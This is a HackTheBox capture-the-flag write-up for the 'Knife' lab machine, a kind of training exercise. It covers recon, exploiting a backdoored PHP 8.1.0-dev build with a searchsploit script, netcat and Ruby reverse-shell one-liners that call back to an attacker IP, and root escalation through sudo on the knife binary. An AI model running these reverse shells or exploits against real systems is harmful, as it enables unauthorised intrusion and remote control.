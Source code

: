 #  Knife - HackTheBox WriteUp

OS: Windows 

Difficulty: Easy

IP: 10.10.10.242


### Scanning, Recon & Information Gathering

The penetration test was started by running a quick full TCP nmap scan against the target:

nmap -p- -T4 10.10.10.242

![nmap_quick](../images/knife/nmap.jpg)

#### Service Enumeration 

**Port 80**

![home](../images/knife/home.jpg)

Navigating to the home page and checking the headers via a proxy like burp:

![php 8_1_0-dev](../images/knife/php_version.png)

PHP/8.1.0-dev is identified as PHP version

Searching for exploits:

searchsploit PHP '8.1.0-dev'

![searchsploit_php8_1_0-dev](../images/knife/searchsploit_php810dev.jpg)

Using the exploitt script and running the following commands will lead to a shell on the target:

```
searchsploit -m 49933.py
mv 49933.py php_8_1_0_dev_exploit.py
python3 php_8_1_0_dev_exploit.py http://10.10.10.242/
id
cat /home/james/user.txt
```

![reverse shell](../images/knife/user.jpg)

Using netcat we can get a reverse shell

```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.114 443 >/tmp/f```

![reverse shell](../images/knife/rev.jpg)

Privilege Escalation:


Upgrade the terminal using python

```
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
james@knife:/$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali:/pwn_share/HTB/knife# stty raw -echo
root@kali:/pwn_share/HTB/knife# nc -lnvp 443

james@knife:/$ export TERM=xterm
james@knife:/$
```

Checking for what the user can do with sudo:

```
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

Reading the knife help and documentation, we find that it can execute ruby scripts.

```sudo /usr/bin/knife --help```

![knife_help](../images/knife/knife_help.jpg)

creating a script in the /tmp directory with the following contents

```exit if fork;c=TCPSocket.new("10.10.14.114","443");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end```

This will initiate a reverse shell connection back to the attacker's machine where a listener is running.

All of this can be done using reverse shell generator 

```rsg 10.10.14.114 443 ruby```

And then copying the contents to a new script in /tmp/my.rb

Executing the script
```sudo /usr/bin/knife exec '/tmp/my.rb'```

```
id
cat /root/root.txt
```


![root](../images/knife/root.jpg)
